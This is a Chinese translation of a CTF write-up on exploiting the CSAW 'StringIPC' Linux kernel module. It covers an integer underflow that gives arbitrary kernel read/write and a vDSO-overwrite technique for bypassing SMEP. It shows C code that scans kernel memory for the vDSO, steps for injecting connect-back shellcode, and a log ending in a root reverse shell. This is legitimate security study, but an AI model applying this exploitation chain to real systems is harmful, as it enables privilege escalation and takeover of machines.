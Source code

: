 ```yaml
---
layout: post
title:  "Bypassing SMEP Using vDSO Overwrites(使用vDSO重写来绕过SMEP防护)"
date:   2015-11-25 3:30:02
summary: 在Intel的SMEP( Sandybridge加入）和SMAP（本来应该是Haswell加入，最终推迟到了broadwell时才加入）中SMEP已经大规模的部署到了生产环境中，由于一些媒体的误导，企业和个人都对SMEP有着过高的期望，斯拉夫兵工厂至少在13个月以前就有针对SMEP绕过的weaponized exploit，这次itszn的绕过SMEP防护的实现非常的精彩，直接把SMEP绕过打成了“白菜价”，而另外一方面，经过h4rdenedzer0的研究和测试发现，虽然PaX/Grsecurity中的类似USERCOPY可以轻松防御这种绕过，但更有意思的是没有任何防御feature的情况下仅靠代码级别的调整也能启到security through obscurity的作用，至少可以防止massive exploit的通杀。这个case值得关注的点还是在于单点防御是无效的，系统层的加固必须以纵深防御的思路来做
categories: translation
---
```


Shawn: Intel的SMEP( Sandybridge加入）和SMAP（本来应该是Haswell加入，最终推迟到了broadwell时才加入）中SMEP已经大规模的部署到了生产环境中，由于一些媒体的误导，企业和个人都对SMEP有着过高的期望，斯拉夫兵工厂至少在13个月以前就有针对SMEP绕过的weaponized exploit，这次itszn的绕过SMEP防护的实现非常的精彩，直接把SMEP绕过打成了“白菜价”，而另外一方面，经过h4rdenedzer0的研究和测试发现，虽然PaX/Grsecurity中的类似USERCOPY可以轻松防御这种绕过，但更有意思的是没有任何防御feature的情况下仅靠代码级别的调整也能启到security through obscurity的作用，至少可以防止massive exploit的通杀。这个case值得关注的点还是在于单点防御是无效的，系统层的加固必须以纵深防御的思路来做，多个mitigation feature+代码级加固会让兵工厂也很蛋疼，当然另外一方面bypass难度提升了他们的利润也会上升;-)

原文地址 [Bypassing SMEP Using vDSO Overwrites](http://itszn.com/blog/?p=21)


译者：n3o4po11o

在今年的CSAW(Cyber Security Awareness Week)决赛中有几个内核相关的挑战。下文是关于我解决题名为"StringIPC"的思路。(作者为[Michael Coppola](https://twitter.com/mncoppola))

摆在我们面前的机器为一台64位ubuntu 14.04.3运行了3.13版本的内核并开启SMEP，kptr_restrict，demsg_restrict的虚拟机。内核中加载了名为"StringIPC"的内核模块，但在home目录中提供了该模块的源码。你可以在[这里](https://github.com/mncoppola/StringIPC/blob/master/main.c)找到源码，我也会在下文中展示一些重要的部分。

##分析内核模块

StringIPC模块实现了最基本的进程间通信的功能，允许对位于/dev/csaw的设备在不同通道下进行读写数据的操作。有8个控制码（codes）可以用来对通道进行创建，修改和读写数据。

{% highlight html %}
#define CSAW_IOCTL_BASE     0x77617363
#define CSAW_ALLOC_CHANNEL  CSAW_IOCTL_BASE+1
#define CSAW_OPEN_CHANNEL   CSAW_IOCTL_BASE+2
#define CSAW_GROW_CHANNEL   CSAW_IOCTL_BASE+3
#define CSAW_SHRINK_CHANNEL CSAW_IOCTL_BASE+4
#define CSAW_READ_CHANNEL   CSAW_IOCTL_BASE+5
#define CSAW_WRITE_CHANNEL  CSAW_IOCTL_BASE+6
#define CSAW_SEEK_CHANNEL   CSAW_IOCTL_BASE+7
#define CSAW_CLOSE_CHANNEL  CSAW_IOCTL_BASE+8
{% endhighlight %}

CSAW_ALLOC_CHANNEL允许用户创建一个新通道和根据给定的大小创建一个新缓冲区，CSAW_GROW_CHANNEL和CSAW_SHRINK_CHANNEL使用了krealloc来改变通道的缓冲区大小。CSAW_READ_CHANNEL和CSAW_WRITE_CHANNEL用来读取和写入由CSAW_SEEK_CHANNEL所指向的当前通道的内存数据。最后CSAW_OPEN_CHANNEL和CSAW_CLOSE_CHANNEL用来确定当前与ioctl进行交互的通道。

Bug存在于使用了krealloc的realloc_ipc_channel:
{% highlight html %}
static int realloc_ipc_channel ( struct ipc_state *state, int id, size_t size, int grow )
{
    struct ipc_channel *channel;
    size_t new_size;
    char *new_data;

    channel = get_channel_by_id(state, id);
    if ( IS_ERR(channel) )
        return PTR_ERR(channel);

    if ( grow )
        new_size = channel->buf_size + size;
    else
        new_size = channel->buf_size - size;

    new_data = krealloc(channel->data, new_size + 1, GFP_KERNEL);
    if ( new_data == NULL )
        return -EINVAL;

    channel->data = new_data;
    channel->buf_size = new_size;

    ipc_channel_put(state, channel);

    return 0;
}
{% endhighlight %}

当我们试图缩小通道缓冲区的大小时，我们缩小了一个比原来缓冲区大小还大1的值，此时new_size会发生underflow从而变成了INT_MAX。当krealloc调用时new_size+1，接着发生overflow回到了0。从krealloc的源码可以看出，当new_size为0时，返回一个ZERO_SIZE_PTR：
{% highlight html %}
void *krealloc(const void *p, size_t new_size, gfp_t flags) {
    void *ret;

    if (unlikely(!new_size)) {
         kfree(p);
         return ZERO_SIZE_PTR;
    }
...
{% endhighlight %}
ZERO_SIZE_PTR定义为((void \*)16)。当我们重新调整大小后，channel->data=0x10而channel_buf_size=INT_MAX。通过在0x10处获取偏移量，我们可以在内核空间(kernelspace)实现任意读写。

##任意写利用

既然我们可以任意读写，我们可以开始创建exploit。由于此时SMEP开启，我们不能直接覆盖一些数据然后跳转到用户空间(userspace)去执行已经提前准备好的shellcode。为了绕过SMEP我们可以使用一个覆盖vDSO的技术，来让另外一个进程以root权限运行进而运行我们反弹（conncet-back）shellcode。

整体的思路如下：vDSO同时映射在内核空间以及每一个进程的虚拟内存中，包括那些以root权限运行的进程。通过调用那些不需要上下文切换（context switching）的系统调用可以加快这一步骤(定位vDSO)。vDSO在用户空间(userspace)映射为R/X，而在内核空间(kernelspace)则为R/W。这允许我们在内核空间修改它，接着在用户空间执行。

下面是使用这个技术的步骤：
{% highlight html %}
1.实现任意读写
2.在内核空间定位vDSO
3.为root权限运行的进程创建反弹shellcode
4.用shellcode覆盖部分vDSO
5.监听反弹root shell
{% endhighlight %}
在我们利用StringIPC模块时，我们已经能够任意读写内存了，所以下一步我们将在runtime定位vDSO.

##Locating vDSO

下面是内核代码中用于在内核空间初始化vDSO页的代码段：

{% highlight html %}
static int __init init_vdso_vars(void) {
    int npages = (vdso_end - vdso_start + PAGE_SIZE - 1) / PAGE_SIZE;
    int i;
    char *vbase;
    vdso_size = npages << PAGE_SHIFT;
    vdso_pages = kmalloc(sizeof(struct page *) * npages, GFP_KERNEL);
    if (!vdso_pages)
        goto oom;
    for (i = 0; i < npages; i++) {
        struct page *p;
        p = alloc_page(GFP_KERNEL);
        if (!p)
            goto oom;
        vdso_pages[i] = p;
        copy_page(page_address(p), vdso_start + i*PAGE_SIZE);
    }
    vbase = vmap(vdso_pages, npages, 0, PAGE_KERNEL);
...
{% endhighlight %}
所以在内核空间中通过alloc_page分配了vDSO页，并且指针保存在了vdso_pages数组中。只有少数的几种方法能够定位这些页。如果能够读取/proc/kallsyms，你将能够通过vdso_pages直接获取这些地址。然而，这种情况在这次比赛不适用。第二种方法则是在内核空间中搜寻每一个页的开头，看是否有ELF头也出现了部分vDSO的映射。我们可以通过vDSO的标志(signatures)进一步缩小这些页的范围。下面是实现这个思路的代码：

{% highlight html %}
void* header = 0;
void* loc = 0xffffffff80000000;
size_t i = 0;
for (; loc<0xffffffffffffafff; loc+=0x1000) {
    readMem(&header,loc,8);
    if (header==0x010102464c457f) {
        fprintf(stderr,"%p elf\n",loc);
        readMem(&header,loc+0x270,8);
        //Look for 'clock_ge' signature (may not be at this offset, but happened to be)
        if (header==0x65675f6b636f6c63) {
            fprintf(stderr,"%p found it?\n",loc);
            break;
        }
    }
}
{% endhighlight %}
现在我们找到了vDSO所在的区域，我们就能用shellcode来覆盖它。

##反弹shellcode

此处用到的反弹shellcode和常见的x86-64 shellcode差不多，但有几个修改的地方。第一个修改为：只为root进程创建反弹shell。因为每一个调用gettimeofday的进程都会触发我们的shellcode，我们不需要那些没有root权限的进程的shell权限。我们可以通过调用 0x66(sys_getuid)系统调用并将其与0进行比较。如果没有root权限，我们继续调用0x66(sys_gettimeofday)系统调用，所以其他没有不相关的进程也不会受到太多影响。但同样在root进程当中，我们不想造成更多的问题，我们将通过0x39系统调用 fork一个子进程，父进程继续执行sys_gettimeofday，而由子进程来执行反弹shell。

我所使用的shellcode的汇编代码可以在[这里](https://gist.github.com/itsZN/1ab36391d1849f15b785)。它将连接到127.0.0.1:3333并执行"/bin/sh"

我们要做的最后一件事则是，dump vDSO并在gettimeofday所在的偏移处检查。只要我们知道我们可以在这个位置覆盖上shellcode，我们就可以在这等待某个进程进行调用。我设置了一个简单的cron任务来完成这个任务(root进程调用gettimeofday)。我最后的代码可以在[这里](https://gist.github.com/itsZN/20144eb7beefbc301bcf)找到。下面是程序运行的情况：

{% highlight html %}
csaw@team7:~$ id
uid=1000(csaw) gid=1000(csaw) groups=1000(csaw)
csaw@team7:~$ ./a.out 
allocate fd: 3 ret: 0 id:1
Shrink: 0 err:0
ZERO_SIZED_POINTER = 0x10
0xffffffff817bc000 elf
0xffffffff817d1000 elf
0xffffffff81b6c000 elf
0xffffffff81b9e000 elf
0xffffffff81c03000 elf
0xffffffff81c03000 found it?
Listening on [0.0.0.0] (family 0, port 3333)
Connection from [127.0.0.1] port 3333 [tcp/*] accepted (family 2, sport 58568)
id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

##Final Notes

vDSO不是唯一一个同时映射在内核空间和用户空间的内存。在x86-64当中,vSYSCALL与vDSO实现类是的功能，但多了一点特性就是每次重启都在同一个位置（可能可以通过内核版本进行预测）。然而 kernel.vsyscall64并没有在本次比赛启用，所以我们将通过vDSO来完成这个目的。如果vm.vdso_enable设置为0，vDSO也会被绕过并且libc的wrapper function会默认调用正常的系统调用。

vDSO/vSYSCALL overwriting是一个非常有用的技术，它能够用在对于中断上下文(interrupt context)的利用，因为它不需要本地进程来映射一段内存，或者提升权限。

在解决这个问题当中本文提到的解决思路也不是唯一的，另外一个解决思路可以在[这里](https://github.com/mncoppola/StringIPC/blob/master/solution/solution.c)找到
